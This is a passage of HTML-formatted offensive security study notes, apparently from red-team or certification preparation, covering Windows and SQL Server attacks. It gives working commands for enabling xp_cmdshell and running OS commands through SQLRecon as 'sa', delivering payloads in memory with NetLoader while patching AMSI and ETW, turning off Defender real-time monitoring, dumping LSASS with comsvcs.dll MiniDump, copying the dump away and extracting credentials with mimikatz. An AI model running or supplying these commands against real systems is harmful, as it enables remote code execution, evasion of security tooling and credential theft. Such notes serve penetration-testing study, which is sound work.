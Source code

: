 # Enabling xp_cmdshell
SQLRecon.exe -a Windows -s target-sqlsrv -m iquery -i sa -o &quot;EXEC sp_configure &#x27;xp_cmdshell&#x27;,1 RECONFIGURE&quot;

# Running whoami on target
SQLRecon.exe -a Windows -s target-sqlsrv -m iquery -i sa -o &quot;EXEC master..xp_cmdshell &#x27;whoami&#x27;&quot;</code></pre><ul id="6142f081-201a-45c5-a12c-33eb232fdbf9" class="bulleted-list"><li style="list-style-type:disc">note that you can also use PowerView’s <code>Get-SQLquery -Instance target-sqlsrv -Query &quot;EXECUTE AS LOGIN = &#x27;sa&#x27; EXEC master..xp_cmdshell &#x27;whoami&#x27;&quot;</code></li></ul><h1 id="d50bb2c3-f4c6-495f-b132-f51fe983632b" class="">Offensive .NET</h1><table id="437c43b4-ee42-4618-9bcf-95dc73ffc9b1" class="simple-table"><tbody><tr id="85baa4f7-6628-4a29-b49a-aed28a0e3f3e"><td id=";{au" class="" style="width:370.00001525878906px"><strong>Pros</strong></td><td id="B=FK" class="" style="width:323.00000762939453px"><strong>Cons</strong></td></tr><tr id="a9dd3151-6f7c-4387-b8de-61287ced01e9"><td id=";{au" class="" style="width:370.00001525878906px"><code>System.Management.Automation.dll</code> lacks some security features for .NET applications / binaries</td><td id="B=FK" class="" style="width:323.00000762939453px">Potentially detected by AV / EDR</td></tr><tr id="d9477cda-d254-42a7-8d91-8e42212c1d84"><td id=";{au" class="" style="width:370.00001525878906px"></td><td id="B=FK" class="" style="width:323.00000762939453px">Harder to deliver payload (need additional script for loading it into memory)</td></tr><tr id="2e872515-fa72-40a8-b179-62fb73a25e56"><td id=";{au" class="" style="width:370.00001525878906px"></td><td id="B=FK" class="" style="width:323.00000762939453px">New process creation, can be detected by blue team</td></tr></tbody></table><ul id="741175fb-6538-4460-bdb3-f112cfb41b44" class="bulleted-list"><li style="list-style-type:disc">use <a href="https://github.com/Flangvik/NetLoader">NetLoader </a>to deliver binary payloads and execute it directly in memory while bypassing AMSI &amp; ETW by patching them <ul id="c45dd031-d30c-4c25-b503-1b4e7372929d" class="bulleted-list"><li style="list-style-type:circle">use port forwarding to indirectly load the binary from a remote address (check  <a href="https://0xd4y.com/2023/04/05/CRTP-Notes/">https://0xd4y.com/2023/04/05/CRTP-Notes/</a> to see how to do that)</li></ul></li></ul><ul id="d35bc4b9-aa52-43cd-a44e-5b81d2c7f758" class="bulleted-list"><li style="list-style-type:disc">NetLoading an unsigned binary such as SafetyKatz may not work if WDAC is enabled, which would result in an error such as <code>The system cannot execute the specified program</code> (check with <code>Get-CimInstance -ClassName Win32_DeviceGuard -Namespace root\Microsoft\Windows\DeviceGuard</code>) <ul id="63f9da47-624e-4300-824d-8a759883accb" class="bulleted-list"><li style="list-style-type:circle">use <code>rundll32.exe</code> to dump the LSASS process and then exfiltrate it (detected by Defender so make sure to turn it off with <code>Set-MpPreference -DisableRealTimeMonitoring $true</code>)</li></ul><pre id="7503321d-0bea-4fcb-b735-6e476df6b4b3" class="code"><code># Get lsass PID
tasklist /FI &quot;IMAGENAME eq lsass.exe&quot;

# Suppose the lsass pid is 716
rundll32.exe C:\windows\system32\comsvcs.dll, MiniDump 716 C:\PATH\TO\SAVE\lsass.dmp full

# Copy lsass.dmp to current machine
echo F | xcopy \\target_machine\C$\PATH\TO\lsass.dmp C:\PATH\TO\SAVE\lsass.dmp

# Dump creds from lsass.dmp
sekurlsa::minidump C:\PATH\TO\lsass.dmp 